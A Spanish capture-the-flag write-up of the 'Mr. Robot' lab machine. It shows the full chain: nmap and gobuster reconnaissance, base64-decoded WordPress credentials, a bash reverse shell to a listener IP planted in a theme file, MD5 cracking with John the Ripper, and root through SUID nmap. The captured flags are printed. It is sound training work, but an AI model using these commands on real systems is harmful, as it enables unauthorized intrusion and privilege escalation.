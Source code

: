# Reto 5 - Mr. Robot
Herramientas utilizadas:
- nmap
- netcat
- john the ripper
- gobuster
- hash-identifier

Este reto consiste en aplicar técnicas de hacking para encontrar tres banderas en la máquina víctima. Luego de identificar el host procedemos a utilizar la herramienta ```nmap``` para determinar los servicios y versiones que corren por los puertos que tiene abiertos la máquina víctima.
```
nmap 10.32.2.48 -sCV -Pn -p-
```
```
Host is up (0.084s latency).
Not shown: 997 filtered ports
PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn\'t have a title (text/html).
443/tcp open   ssl/http Apache httpd
|_http-server-header: Apache
|_http-title: 400 Bad Request
| ssl-cert: Subject: commonName=www.example.com
```
Podemos observar que encontramos tres puertos abiertos. Procedemos a revisar la web que se exporta por el puerto 80.

<p align="center"> <img src="../../img_JCE_UCI2024/reto5-1.png" /> </p>

Utilizamos la herramienta ```gobuster``` para listar los directorios existentes en la web.
```
gobuster dir --url http://10.32.2.48/ -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt

===============================================================
/images (Status: 301)
/video (Status: 301)
/rss (Status: 301)
/image (Status: 301)
/blog (Status: 301)
/0 (Status: 301)
/audio (Status: 301)
/sitemap (Status: 200)
/admin (Status: 301)
/feed (Status: 301)
/robots (Status: 200)
/dashboard (Status: 302)
/login (Status: 302)
/phpmyadmin (Status: 403)
/intro (Status: 200)
/license (Status: 200)
/wp-content (Status: 301)
/css (Status: 301)
/js (Status: 301)
```

Accedemos al directorio **/robots** y nos encontramos con dos ficheros de interés. Listamos el contenido del fichero **key-1-of-3.txt** y encontramos la primera flag del reto.

<p align="center"> <img src="../../img_JCE_UCI2024/reto5-2.png" /> </p>

Primera flag: ```flag{073403c8a58a1f80d943455fb30724b9}```


Revisando otros directorios encontramos que en ```/license``` se mostraba un mensaje que parecía no muy relevante. Al observar al final de la web, nos mostraban una cadena en base64.

<p align="center"> <img src="../../img_JCE_UCI2024/reto5-3.png" /> </p>

Decodificamos la cadena para llevarla a texto claro y obtenemos un posible usuario y contraseña.
```
echo "ZwxsaW90kVSMjgtMDY1Mgo=" | base64 -d
  elliot:ER28-0652
```
Accedemos al panel de login de Wordpress y probamos las credenciales encontradas.

<p align="center"> <img src="../../img_JCE_UCI2024/reto5-4.png" /> </p>
<p align="center"> <img src="../../img_JCE_UCI2024/reto5-5.png" /> </p>
<p align="center"> <img src="../../img_JCE_UCI2024/reto5-12.png" /> </p>

Ya logueados nos aprovechamos del apartado **Appearance** para subir una **reverse shell** y ganar acceso a la máquina. Agregamos la línea de código siguiente:
```
bash -i >& /dev/tcp/10.8.144.236/4142 0>&1
```
Posteriormente nos ponemos en escucha en nuestra máquina local con ```netcat``` y accedemos al archivo donde se encuentra el código agregado para ganar acceso a la máquina víctima. ```URL:  http://10.32.2.48/wp-content/themes/twentyfifteen/archive.php```
```
nc -nlvp 4142
```

Dentro de la máquina víctima procedemos a listar el contenido del directorio **/home/robot**

<p align="center"> <img src="../../img_JCE_UCI2024/reto5-6.png" /> </p>

Nótese que el archivo de la flag solo puede ser leído por el propietario. Revisamos el fichero **password.raw-md5** y encontramos unas credenciales potenciales. 

<p align="center"> <img src="../../img_JCE_UCI2024/reto5-7.png" /> </p>

Utilizamos la herramienta ```hash-identifier``` proporcionandole la contraseña encontrada y nos devuelve que se encuentra cifrada con MD5, por lo que tubimos que descifrarla utilizando la herramienta ```John The Ripper```

```
john --format=raw-md5 --wordlist=/usr/share/wordlist/rockyou.txt hash.txt
  
  Using default input encoding: UTF-8
  Loaded 1 password hash (Raw-MD5 [MD5 128/128 SSE2 4x3])
  Warning: no OpenMP support for this hash type, consider --fork=2
  Press 'q' or Ctrl-C to abort, almost any other key for status

  abcdefghijklmnopqrstuvwxyz (robot)
```

En este punto nos podemos convertir en el usuario robot proporcionando la contraseña encontrada y listamos la segunda flag del reto.
```
su robot
```

```
robot@linux:~$ cat key-2-of-3.txt
cat key-2-of-3.txt
822c73956184f694993bede3eb39f959
```
Segunda flag: ```flag{822c73956184f694993bede3eb39f959}```

Para encontrar la tercera y última flag del reto necesitamos escalar privilegios para convertirnos en root. Buscamos por permisos SUID y encontramos que el binario nmap está corriendo con permisos SUID.
```
find / -perm -u=s -type f 2>/dev/null
```
<p align="center"> <img src="../../img_JCE_UCI2024/reto5-8.png" /> </p>

Buscamos en la pagina ```https://gtfobins.github.io/``` si podemos escalar privilegios a través de la herramienta nmap con permisos de SUID y efectivamente, existe una vía ejecutando comandos.

```
nmap --interactive
nmap> sh!
```
<p align="center"> <img src="../../img_JCE_UCI2024/reto5-9.png" /> </p>

Ejecutamos los comandos en la maquina víctima y nos convertimos en root. Accedemos al directorio **/root** y encontramos el fichero que contiene la última flag.

<p align="center"> <img src="../../img_JCE_UCI2024/reto5-10.png" /> </p>

Listamos el contenido del fichero y obtenemos la flag.

<p align="center"> <img src="../../img_JCE_UCI2024/reto5-11.png" /> </p>

Última flag: ```flag{04787ddef27c3dee1ee161b21670b4e4}```


